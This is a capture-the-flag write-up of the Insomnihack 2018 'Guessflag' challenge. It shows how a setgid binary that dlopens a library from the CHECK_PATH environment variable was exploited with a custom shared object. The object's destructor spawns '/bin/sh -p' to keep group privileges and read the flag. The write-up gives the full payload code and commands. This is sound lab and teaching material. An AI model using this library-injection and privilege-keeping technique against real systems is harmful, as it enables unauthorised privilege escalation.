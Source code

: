 # Guessflag

Guessflag was a warmup pwn at **Insomnihack 2018**. It was a fairly easy challenge, but we struggled a lot on small details.

## The challenge

We were given ssh access to a remote server, and the challenge was in `/home/flag` there.
There we could find a shared lib (`dowin.so`), the main binary (`guessflag`), and a text file (`flag.txt`).

We could see that `guessflag` **was setgid** and that **the owner of both the** `flag.txt` **file and the** `guessflag` **binary was part of the group "flag".**

```bash
user1@insomniak:/home/flag$ ls -al
total 32
drwxr-xr-x  2 root root  4096 Mar 26 13:18 .
drwxr-xr-x 12 root root 4096 Mar 26 12:50 ..
-rwxr-xr-x  1 root root  7512 Mar 26 12:50 dowin.so
-rwxr-sr-x  1 root flag  8520 Mar 26 12:51 guessflag
-rw-r-----  1 root flag   262 Mar 26 13:18 flag.txt
```

With this information, we knew that we'd probably have to exploit the `guessflag` binary to run commands as a member of the "flag" group in order to read `flag.txt`, which most likely contains the flag.

## Analysis

Let's start with some analysis of the binary.

First we look at the output of the `file` command:

```bash
user1@insomniak:/home/flag$ file guessflag                                                                                                                      
guessflag: setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, not stripped
```

It tells us that `guessflag` is **compiled as a dynamic binary**, which means that it relies on the `libc` of the remote server for standard functions like `printf` et al.! We could make it use our own standard function using  [LD_PRELOAD trick](https://www.goldsborough.me/c/low-level/kernel/2016/08/29/16-48-53-the_-ld_preload-_trick/), but from our little experience, we know that **LD_PRELOAD is ignored when the binary is setuid or setgid**, which is the case here.

So let's move on and look at the output of `ltrace`.

```bash
user1@insomniak:/home/flag$ ltrace ./guessflag                                                                                                                    
puts("Can you guess the flag ?"Can you guess the flag ?
)                                                                                        = 25
+++ exited (status 255) +++
```

Nothing fancy here, let's try with an argument.

```bash
user1@insomniak:/home/flag$ ltrace ./guessflag arg                                                                                                                   
puts("Can you guess the flag ?"Can you guess the flag ?
)                                                                                        = 25
getenv("CHECK_PATH")                                                                                                    = nil
snprintf("(null)/dowin.so", 1024, "%s/dowin.so", nil)                                                                   = 15
dlopen("(null)/dowin.so", 1)                                                                                            = 0
+++ exited (status 255) +++
```

Uuh! Looks like it **first checks if we passed an argument, and if so, tries to get the content of the environment variable CHECK_PATH**.

Let's try to set this variable : 

```bash
user1@insomniak:/home/flag$ CHECK_PATH=test ltrace ./guessflag arg                                                                                                   
puts("Can you guess the flag ?"Can you guess the flag ?
)                                                                                        = 25
getenv("CHECK_PATH")                                                                                                    = "test"
snprintf("test/dowin.so", 1024, "%s/dowin.so", "test")                                                                  = 13
dlopen("test/dowin.so", 1)                                                                                              = 0
+++ exited (status 255) +++
```

Alright, so it looks like it **appends the content of CHECK_PATH to the string "/dowin.so" and then tries to use `dlopen` on it**. This means that if we set the CHECK_PATH variable to something like `/tmp/pld` and create our own `dowin.so` in this directory, it will load it !

## Exploit

I had never met the `dlopen` function before, but it's really straightforward.
It simply opens a shared object whose path is passed as a parameter and gives you the ability to execute the functions it provides.

The problem here is that we can not create just any random function and simply load our library, as it would never get called.

We struggled a bit here, and [Geluchat](https://dailysecurity.fr) gave us a neat trick: **it is possible to use the [.fini section](http://l4u-00.jinr.ru/usoft/WWW/www_debian.org/Documentation/elf/node3.html) by creating a destructor in our custom `dowin.so`, and which will execute when the lib is unloaded** (*i.e. when the binary exits, here*).

We ended up with the following payload:

```c
#include <unistd.h>

void begin (void) __attribute__((destructor));

void begin (void) {
	system("id && whoami");
}


```

We set up the exploit in tmp: 

```bash
user1@insomniak:/home/flag$ mkdir /tmp/pld && cd /tmp/pld
user1@insomniak:/tmp/pld$ gcc -o dowin.so -fPIC -shared payload.c
user1@insomniak:/tmp/pld$ export CHECK_PATH=/tmp/pld ./guessflag a
Can you guess the flag ?
uid=1005(user1) gid=985(users) groups=985(users)
user1
```

Yeah nice, our destructor got executed!
But, wait… The permissions were dropped :( WHHHhhyYyyy ?

We struggled for about 2 hours on this, and then asked for a bit of help to a member of Securimag.

He told us that on this machine, /bin/sh was a symlink to /bin/bash, **which drops the setuid and setgid permissions by default when it is called**.

Using `man system`, we can easily figure out that `system()` simply calls `/bin/sh` with the argument it is passed.

He also told us that **the `-p` argument on `/bin/sh` prevents it from dropping the permissions**.

That gave us our second payload: 

```c
void begin (void) __attribute__((destructor));

void begin (void) {
	char *envp[] = { NULL };
	char *argv[] = { "/bin/sh", "-p", NULL };
	execve("/bin/sh", argv, envp);
}
```

We compile and run it…

```
user1@insomniak:/tmp/pld$ gcc -o dowin.so -fPIC -shared payload.c
user1@insomniak:/tmp/pld$ CHECK_PATH=/tmp/pld ./guessflag a
Can you guess the flag ?
user1@insomniak:/tmp/pld$ id
uid=1005(user1) gid=985(users) groups=985(users), 990(flag)
```

Yay! We got a shell in the `flag` group :D

```
user1@insomniak:/tmp/pld$ cat /home/flag/flag.txt
INS{th4t_library_was_usele$$}
```

Aaand… **Flagged!**
